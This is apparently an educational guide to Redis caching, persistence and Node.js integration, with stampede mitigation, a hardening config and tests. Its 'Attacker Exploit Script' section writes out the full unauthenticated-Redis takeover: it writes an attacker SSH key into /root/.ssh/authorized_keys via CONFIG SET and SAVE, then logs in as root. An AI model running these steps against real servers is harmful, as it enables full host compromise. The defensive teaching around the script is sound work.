

# Redis In-Memory Architecture, Advanced Caching & Node.js Production Integration

## 1. 🎯 Overview & Intuitive Mental Model

In high-concurrency web architectures, the relational database (PostgreSQL, MySQL) is almost always the primary scalability bottleneck. Disk I/O, complex B-Tree traversal, query planning, and lock contention throttle throughput when traffic spikes.

**Redis (Remote Dictionary Server)** is an open-source, in-memory, key-value data structure store used as a database, cache, message broker, and streaming engine. Redis serves read and write operations with **sub-millisecond latency** (often < 1ms), sustaining tens of thousands to millions of operations per second on a single instance.

```
+----------------------------------------------------------------------------------------------------+
|                                    🧠 THE PHYSICAL ANALOGY                                         |
|                                                                                                    |
|  👨‍🍳 The High-End Restaurant Kitchen:                                                              |
|                                                                                                    |
|  🧊 The Distant Walk-in Freezer (PostgreSQL / MySQL):                                              |
|     Heavy, cold, durable, and located in the basement. Every visit requires walking downstairs,     |
|     unlocking heavy insulated doors, and unpacking frozen crates (Disk I/O, table scans, indexes).  |
|     Reliable and permanent, but slow.                                                              |
|                                                                                                    |
|  ⚡ The Chef's Stainless-Steel Prep Counter (Redis):                                               |
|     Right at arm's length on the kitchen line. Pre-chopped herbs, seasoned sauces, and warmed broth|
|     sit ready in small prep pans (RAM). Orders are fulfilled in 2 seconds without anyone walking to  |
|     the basement.                                                                                  |
|                                                                                                    |
|  ⚠️ What happens if the counter runs out or spills?                                               |
|     If the chef forgets to restock (Cache Miss), they must walk down to the freezer. If 50 chefs    |
|     rush to the freezer at the exact same second because the sauce pan emptied (Cache Stampede),   |
|     the kitchen jams and catches fire.                                                             |
+----------------------------------------------------------------------------------------------------+
```

### ⚙️ Why Redis is Blazingly Fast (The Single-Threaded Event Loop)

A common misconception is that maximum speed requires multi-threaded execution. Redis achieves world-class performance precisely because its core command execution is **single-threaded**:
1. **Zero Context Switching:** Multi-threaded engines spend significant CPU cycles saving registers, swapping thread stacks, and coordinating memory caches. Redis avoids thread context switching entirely.
2. **Zero Lock Contention:** There are no mutexes, spinlocks, or read/write locks around data structures. Every command (`INCR`, `HSET`, `LPUSH`) executes atomically without race conditions.
3. **I/O Multiplexing (`epoll` / `kqueue`):** Redis handles tens of thousands of client TCP connections concurrently using OS-level event notification (`epoll` on Linux). While command execution is sequential, non-blocking I/O ensures the CPU never idles waiting for network packets.
4. **RAM Speed vs Disk Speed:** Accessing DDR4/DDR5 RAM takes ~50 to 100 nanoseconds, whereas reading from a fast NVMe SSD takes ~50 to 100 microseconds (a $1,000\times$ difference!).

### 💾 Redis Persistence Models: RDB vs. AOF

Redis holds all datasets in RAM, but provides two persistence engines to survive server reboots:

| Dimension | RDB (Redis Database Snapshots) | AOF (Append-Only File) | Hybrid (RDB + AOF) |
|---|---|---|---|
| **Mechanism** | Point-in-time point snapshots written to disk at intervals (e.g., every 5 minutes). | Logs every single write command sequentially (`SET`, `DEL`) to an append-only disk log. | RDB snapshot base with an incremental AOF log tail. |
| **Data Loss Risk** | High (loses data written since the last snapshot). | Minimal (configured with `fsync everysec` = max 1 second loss). | Minimal ($\le 1$ second loss). |
| **Recovery Speed** | **Extremely fast** (loads pre-serialized memory image directly). | Slow (must sequentially replay millions of individual write commands). | **Fast & Durable** (Best of both worlds). |
| **Performance Overhead**| Forking child process can cause momentary latency spikes on large RAM heaps. | Continuous disk writes (`fsync`) add small disk I/O overhead. | Balanced. |

### Severity & Vulnerability Matrix
- **OWASP Category:** A05:2021 – Security Misconfiguration & A04:2021 – Insecure Design
- **CWE Identifiers:** [CWE-306: Missing Authentication for Critical Function](https://cwe.mitre.org/data/definitions/306.html), [CWE-400: Uncontrolled Resource Consumption (Cache Stampede)](https://cwe.mitre.org/data/definitions/400.html)
- **Blast Radius:** Complete remote server takeover (RCE) via unauthenticated Redis, cascading database collapse during cache stampedes, memory exhaustion (OOM kills), cross-tenant session leaks.

---

## 2. 🎨 Interactive Visual Architecture

### The Complete Node.js + Redis Production Topology



> 💡 **Visual Inspection Tip:** Connect to your development Redis instance via terminal using `redis-cli monitor`. As you click through your web application in the browser, you will see real-time commands scrolling by: `GET session:...`, `SETEX product:... 3600`, and `EXPIRE`. This immediately exposes N+1 cache query antipatterns!

---

## 3. 💥 Real-World Exploit Walkthrough

### Scenario A: The Cache Stampede (Thundering Herd) Disaster

When an e-commerce platform puts a popular flash-sale item on sale, thousands of users request the exact same product endpoint simultaneously. 

#### ❌ Vulnerable Naive Cache-Aside Implementation (Node.js)
```typescript
// vulnerable-cache.ts - NAIVE IMPLEMENTATION
import express from 'express';
import Redis from 'ioredis';
import { Pool } from 'pg';

const app = express();
const redis = new Redis();
const db = new Pool();

app.get('/api/products/:id', async (req, res) => {
  const { id } = req.params;
  const cacheKey = `product:${id}`;

  // 1. Check Redis
  const cached = await redis.get(cacheKey);
  if (cached) {
    return res.json(JSON.parse(cached));
  }

  // 💥 VULNERABILITY: Cache Stampede / Thundering Herd!
  // If product:42 expires during peak traffic, 5,000 concurrent requests 
  // miss the cache at the exact same millisecond. ALL 5,000 fire heavy SQL queries!
  const result = await db.query('SELECT * FROM products WHERE id = $1', [id]);
  const product = result.rows[0];

  // Backfill with TTL
  await redis.setex(cacheKey, 60, JSON.stringify(product));
  res.json(product);
});
```

#### The Exploit / Failure Dynamic:
1. **TTL Expiration:** At 12:00:00, `product:42` reaches its 60-second TTL and is evicted.
2. **Traffic Wave:** 5,000 active shoppers hit `/api/products/42`.
3. **Database Meltdown:** All 5,000 requests find `cached === null` and execute the SQL query simultaneously.
4. **Cascade:** The PostgreSQL connection pool is completely exhausted, query queue times spike to 30 seconds, CPU hits 100%, and the database crashes, taking down the entire website.

---

### Scenario B: Unauthenticated Redis Remote Code Execution (RCE)

By default, early Redis configurations listened on `0.0.0.0:6379` with no password (`protected-mode no`). Attackers scan for open port 6379 and use Redis disk persistence directives to overwrite the host server's SSH keys or cron jobs.

#### Attacker Exploit Script:
```bash
# 1. Connect to vulnerable open Redis instance
redis-cli -h victim-server.com -p 6379

# 2. Write an attacker public SSH key into Redis memory
victim-server.com:6379> SET my_ssh_key "\n\nssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAI... attacker@evil\n\n"

# 3. Reconfigure Redis to write its snapshot file into the root user's .ssh directory!
victim-server.com:6379> CONFIG SET dir /root/.ssh
victim-server.com:6379> CONFIG SET dbfilename authorized_keys

# 4. Save the memory dump to disk
victim-server.com:6379> SAVE

# 5. The attacker logs directly into the Linux server as ROOT!
ssh root@victim-server.com -i id_ed25519
```

**Impact:** Complete host compromise, root shell access, credential theft, and ransomware deployment.

---

## 4. 🛡️ Resolution & Complete Production Implementation

### Part A: Resilient Production Redis Client Configuration (`redisClient.ts`)

```typescript
// redisClient.ts - RESILIENT ENTERPRISE REDIS CLIENT
import Redis, { RedisOptions } from 'ioredis';

const redisConfig: RedisOptions = {
  host: process.env.REDIS_HOST || '127.0.0.1',
  port: Number(process.env.REDIS_PORT) || 6379,
  password: process.env.REDIS_PASSWORD || undefined,
  db: 0,
  
  // 🛡️ Connection Resilience: Exponential backoff on network blips
  retryStrategy(times) {
    const delay = Math.min(times * 100, 3000);
    console.warn(`[Redis] Reconnecting attempt #${times} in ${delay}ms...`);
    return delay;
  },

  // 🛡️ Fail fast if Redis is completely down
  maxRetriesPerRequest: 3,
  enableReadyCheck: true,
  connectTimeout: 10000,
  
  // Keep connection alive through NAT / cloud firewalls
  keepAlive: 30000,
};

export const redis = new Redis(redisConfig);

redis.on('connect', () => console.log('⚡ [Redis] TCP connection established'));
redis.on('ready', () => console.log('✅ [Redis] Client ready to receive commands'));
redis.on('error', (err) => console.error('❌ [Redis] Client Error:', err.message));
redis.on('close', () => console.warn('⚠️ [Redis] Connection closed'));
```

---

### Part B: Mitigating Cache Stampedes: Mutex Locking & Probabilistic Early Recomputation

#### 1. Mutex Locking (Single-Flight Cache Backfill)
When a cache miss occurs, only **one** request is granted permission to query the database and backfill the cache; all other concurrent requests wait and read the freshly cached value.

```typescript
// cacheService.ts - PRODUCTION CACHE WITH MUTEX LOCKING
import { redis } from './redisClient';
import { Pool } from 'pg';

const db = new Pool();

export async function getOrSetCache<T>(
  key: string,
  ttlSeconds: number,
  fetchFn: () => Promise<T>
): Promise<T> {
  // 1. Attempt fast read from Redis
  const cached = await redis.get(key);
  if (cached) {
    return JSON.parse(cached) as T;
  }

  // 2. Cache Miss: Acquire single-flight mutex lock to prevent Stampede
  const lockKey = `lock:${key}`;
  const lockToken = Math.random().toString(36).substring(2);
  const acquired = await redis.set(lockKey, lockToken, 'PX', 5000, 'NX');

  if (acquired === 'OK') {
    // 🛡️ Current worker won the lock: Query database and populate cache
    try {
      const freshData = await fetchFn();
      
      // Jitter TTL slightly (+-10%) to prevent simultaneous expiration (Cache Avalanche)
      const jitter = Math.floor(Math.random() * (ttlSeconds * 0.2)) - (ttlSeconds * 0.1);
      const finalTTL = Math.max(1, ttlSeconds + jitter);

      await redis.setex(key, finalTTL, JSON.stringify(freshData));
      return freshData;
    } finally {
      // Release lock atomically using Lua
      await releaseLock(lockKey, lockToken);
    }
  } else {
    // 🛡️ Another worker is already fetching the data: Wait 50ms and retry from cache
    await new Promise((resolve) => setTimeout(resolve, 50));
    return getOrSetCache(key, ttlSeconds, fetchFn);
  }
}

// Atomically releases lock only if value matches token (prevents releasing someone else's lock)
async function releaseLock(lockKey: string, lockToken: string): Promise<void> {
  const luaReleaseScript = `
    if redis.call("get", KEYS[1]) == ARGV[1] then
      return redis.call("del", KEYS[1])
    else
      return 0
    end
  `;
  await redis.eval(luaReleaseScript, 1, lockKey, lockToken);
}
```

---

### Part C: Mastering Redis Data Structures in Node.js

Redis is much more than a plain key-value string store. Selecting the proper data structure saves massive memory and computational overhead:

#### 1. Hashes (`HSET`, `HGETALL`): Memory-Efficient Entity Storage
Storing large JSON strings requires parsing and stringifying on every access. Hashes store individual fields natively:

```typescript
// userSessionHash.ts - REDIS HASHES
export async function saveUserSession(userId: string, data: { name: string; role: string; email: string }) {
  const key = `session:${userId}`;
  
  // Store fields natively
  await redis.hset(key, {
    name: data.name,
    role: data.role,
    email: data.email,
    lastActive: String(Date.now()),
  });

  // Set TTL on the whole hash
  await redis.expire(key, 86400); // 24 hours
}

export async function getUserRole(userId: string): Promise<string | null> {
  // Fetch ONLY the role field without loading or parsing the entire session!
  return redis.hget(`session:${userId}`, 'role');
}
```

#### 2. Sorted Sets (`ZADD`, `ZRANGE`): Real-Time Leaderboards & Sliding Window Queues
Sorted Sets store unique strings sorted by a floating-point score:

```typescript
// leaderboard.ts - REAL-TIME GAMING / SALES LEADERBOARD
export async function recordUserScore(userId: string, score: number) {
  // ZINCRBY increments user's score atomically
  await redis.zincrby('leaderboard:monthly', score, userId);
}

export async function getTopTenLeaders(): Promise<Array<{ userId: string; score: number }>> {
  // Returns top 10 players ordered from highest to lowest score
  const results = await redis.zrevrange('leaderboard:monthly', 0, 9, 'WITHSCORES');
  
  const leaderboard: Array<{ userId: string; score: number }> = [];
  for (let i = 0; i < results.length; i += 2) {
    leaderboard.push({
      userId: results[i],
      score: Number(results[i + 1]),
    });
  }
  return leaderboard;
}
```

---

### Part D: Atomic Sliding-Window Rate Limiter via Redis Lua Script

Naive multi-command rate limiters suffer from race conditions. Executing a **Lua script** guarantees that all steps execute atomically in a single Redis tick:

```typescript
// rateLimiter.ts - ATOMIC SLIDING WINDOW RATE LIMITER
const SLIDING_WINDOW_LUA = `
  local key = KEYS[1]
  local now = tonumber(ARGV[1])
  local window = tonumber(ARGV[2])
  local limit = tonumber(ARGV[3])
  local clearBefore = now - window

  -- Remove all timestamps outside the sliding window
  redis.call('ZREMRANGEBYSCORE', key, 0, clearBefore)

  -- Count current requests in window
  local currentRequests = redis.call('ZCARD', key)

  if currentRequests < limit then
    -- Add current request timestamp
    redis.call('ZADD', key, now, now)
    redis.call('EXPIRE', key, math.ceil(window / 1000))
    return 1 -- Allowed
  else
    return 0 -- Rate limit exceeded
  end
`;

export async function checkRateLimit(
  userId: string,
  limit: number = 60,
  windowMs: number = 60000
): Promise<boolean> {
  const key = `ratelimit:${userId}`;
  const now = Date.now();

  const allowed = await redis.eval(
    SLIDING_WINDOW_LUA,
    1,
    key,
    now,
    windowMs,
    limit
  );

  return allowed === 1;
}
```

---

### Part E: Redis Security Hardening Checklist (`redis.conf`)

Hardening Redis in production requires strict configuration boundaries:

```text
# ==============================================================================
# PRODUCTION REDIS HARDENING CONFIGURATION (/etc/redis/redis.conf)
# ==============================================================================

# 🛡️ 1. Network Binding: NEVER bind to 0.0.0.0 on public servers!
bind 127.0.0.1 ::1
protected-mode yes
port 6379

# 🛡️ 2. Strong Password Authentication (At least 32 characters)
requirepass "sUp3r_S3cur3_L0ng_Entr0py_P@ssw0rd_9872!"

# 🛡️ 3. Disable Dangerous Administrative Commands
# Attackers exploit these commands for RCE, disk tampering, or data wiping
rename-command FLUSHALL ""
rename-command FLUSHDB  ""
rename-command CONFIG   "ADMIN_CONFIG_SECRET_987"
rename-command KEYS     ""
rename-command DEBUG    ""
rename-command SHUTDOWN ""

# 🛡️ 4. Memory Bounds & Eviction Policy (Prevent Out-Of-Memory Crashes)
maxmemory 2gb
# allkeys-lru: Evicts the least recently used keys when maxmemory is reached
maxmemory-policy allkeys-lru

# 🛡️ 5. Persistence Tuning
save 900 1
save 300 10
save 60 10000
appendonly yes
appendfsync everysec
```

> ⚠️ **Critical Rule: NEVER USE `KEYS *` IN PRODUCTION!**
> The `KEYS *` command scans every single key in the database synchronously. On a database with 5,000,000 keys, `KEYS *` will block the single-threaded Redis process for several seconds, freezing all web traffic. Always use non-blocking cursor iteration with **`SCAN`**!

---

## 5. 🧪 Hands-On Verification & Lab

### 1. Terminal Verification with `redis-cli`

```bash
# Connect with authentication
redis-cli -h 127.0.0.1 -p 6379 -a "sUp3r_S3cur3_L0ng_Entr0py_P@ssw0rd_9872!"

# Check memory allocation and eviction stats
127.0.0.1:6379> INFO memory

# Inspect keys with safe non-blocking cursor scan (NOT KEYS *)
127.0.0.1:6379> SCAN 0 MATCH product:* COUNT 10

# Verify remaining Time-To-Live (TTL in seconds)
127.0.0.1:6379> TTL product:42
```

### 2. Automated Integration Test: Cache-Aside & Mutex Lock (Vitest)

```typescript
// redisCache.test.ts
import { describe, it, expect, beforeAll, afterAll } from 'vitest';
import { redis } from './redisClient';
import { getOrSetCache } from './cacheService';

describe('Redis Cache-Aside & Concurrency Test Suite', () => {
  beforeAll(async () => {
    await redis.flushdb();
  });

  afterAll(async () => {
    await redis.quit();
  });

  it('serves cached data on subsequent calls without re-invoking database fetcher', async () => {
    let dbCallCount = 0;
    const mockDbFetch = async () => {
      dbCallCount += 1;
      return { id: 101, title: 'Ergonomic Desk' };
    };

    // First Call: Cache Miss (Triggers mockDbFetch)
    const result1 = await getOrSetCache('test:product:101', 60, mockDbFetch);
    expect(result1.title).toBe('Ergonomic Desk');
    expect(dbCallCount).toBe(1);

    // Second Call: Cache Hit (Reads from Redis, mockDbFetch NOT called)
    const result2 = await getOrSetCache('test:product:101', 60, mockDbFetch);
    expect(result2.title).toBe('Ergonomic Desk');
    expect(dbCallCount).toBe(1); // Call count remains 1!
  });

  it('handles 20 concurrent requests without triggering cache stampede', async () => {
    let executionCount = 0;
    const expensiveOperation = async () => {
      await new Promise((r) => setTimeout(r, 20)); // Simulate slow DB query
      executionCount += 1;
      return { status: 'computed' };
    };

    // Fire 20 parallel requests simultaneously
    const promises = Array.from({ length: 20 }).map(() =>
      getOrSetCache('test:concurrent:stampede', 30, expensiveOperation)
    );

    const results = await Promise.all(promises);
    expect(results).toHaveLength(20);
    // Mutex ensures expensive operation executed exactly once!
    expect(executionCount).toBe(1);
  });
});
```

---

## 6. 📋 Code Review Checklist

- [ ] **No `KEYS *` in Codebase:** Are all key searches using `SCAN` cursors rather than blocking `KEYS` commands?
- [ ] **Mandatory TTL on Caches:** Does every `SET` operation on transient caches include an explicit TTL (`EX`, `PX`, or `SETEX`)?
- [ ] **TTL Jitter Applied:** Are TTLs randomized slightly ($\pm 10\%$) to prevent Cache Avalanche on bulk-populated entries?
- [ ] **Single-Flight / Mutex for Stampedes:** Are high-traffic cache misses guarded with distributed locks to protect the database?
- [ ] **Atomic Lua for Multi-Step Operations:** Are multi-step check-and-set or sliding window operations executed via Lua scripts?
- [ ] **Strong Password & `protected-mode yes`:** Is Redis secured with a strong password and bound only to private VPC / localhost interfaces?
- [ ] **Dangerous Commands Disabled:** Are `FLUSHALL`, `FLUSHDB`, and `CONFIG` disabled or renamed in `redis.conf`?
- [ ] **`maxmemory` & Eviction Policy Defined:** Is `maxmemory-policy allkeys-lru` (or `volatile-lru`) configured to prevent Linux OOM-killer crashes?
- [ ] **ioredis Error Listeners Registered:** Does the Node.js Redis instance have an `on('error')` handler to prevent unhandled promise rejections?

---

## 7. 🎥 Curated Video Walkthroughs & Primary References

### 📺 High-Impact Video Explanations
- 🎥 [Redis Crash Course: Architecture, Data Structures & Use Cases (Hussein Nasser)](https://www.youtube.com/watch?v=XCSq_DN5v4A) — Masterclass on single-threaded event loops, RAM access speeds, and data persistence models.
- 🎥 [How to Scale Systems with Caching: Cache-Aside, Write-Through, Stampede (ByteByteGo)](https://www.youtube.com/watch?v=d_E_LwO_Vw0) — Clear architectural diagrams comparing caching topologies and mitigating stampedes.
- 🎥 [Redis in 100 Seconds (Fireship)](https://www.youtube.com/watch?v=G1rOAtV88_U) — Fast visual breakdown of data structures, pub/sub, and caching.
- 🎥 [Distributed Locks with Redis & Redlock Algorithm (Hussein Nasser)](https://www.youtube.com/watch?v=L3UX_zQv8t4) — Deep dive into distributed locking pitfalls, clock drift, and safe Lua unlocks.

### 📖 Primary Documentation & Specifications
- 📜 [Redis Official Documentation](https://redis.io/docs/) — Authoritative reference for command complexities, data structures, and ACLs.
- 📜 [ioredis GitHub Documentation](https://github.com/redis/ioredis) — Official documentation for the industry-standard TypeScript/Node.js client.
- 📜 [Redis Security Guide](https://redis.io/docs/management/security/) — Best practices for network isolation, password authentication, and command disabling.
- 📜 [Distributed Locks with Redis (Redlock Spec)](https://redis.io/docs/manual/patterns/distributed-locks/) — Official algorithm for reliable distributed locking across clusters.

### 🧪 Interactive Hands-On Training Labs & Tools
- 🎯 [Try Redis (Interactive In-Browser CLI)](https://try.redis.io/) — Practice running commands directly inside your browser without installing software.
- 🎯 [Redis University (Free Certified Courses)](https://university.redis.com/) — In-depth interactive developer courses covering Redis for Node.js developers.
- 🎯 [Redis Insight GUI](https://redis.com/redis-enterprise/redis-insight/) — Official cross-platform GUI for visual memory analysis, slow log inspection, and tree view navigation.
